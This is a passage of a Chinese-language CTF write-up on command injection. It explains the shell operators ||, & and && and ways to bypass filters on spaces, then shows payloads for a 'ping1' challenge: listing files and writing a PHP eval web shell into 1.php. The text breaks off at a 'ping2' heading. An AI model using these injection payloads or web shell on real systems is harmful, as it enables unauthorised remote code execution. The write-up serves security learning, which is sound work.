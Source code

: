 ```
||：如果前面执行语句出错，那么就执行后面的语句，前面的语句只能为假。例如：2||whoami
```

```
&：如果前面的语句为假，那么就执行后面的语句，前面的语句可真可假。例如：127.0.0.1&whoami
```

```
&&：如果前面的语句为假则直接出错，不执行后面的语句，前面的语句只能为真。例如：127.0.0.1&&whoami
```

### 截断符号

```
‘$’‘;’‘|’‘-’‘(’‘)’‘反引号’‘||’‘&&’‘&’‘}’‘{’
```

### 空格的代替

```
<
${IFS}
$IFS$9
%09
```

### 例题

#### ping1

先用这个读一下列表

```
127.0.0.1|ls
```

![image-20210426213309988](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210426213309988.png)

很顺利的就读出来了列表

那就写个木马进去

```
|echo "<?php @eval($_POST[cmd]);?>">1.php
```

![image-20210426213347848](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210426213347848.png)

木马写进去了，连接试试。

发现执行不了。

![image-20210426213422302](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210426213422302.png)

后面才知道`$`要加上`\`转义掉才行

#### ping2
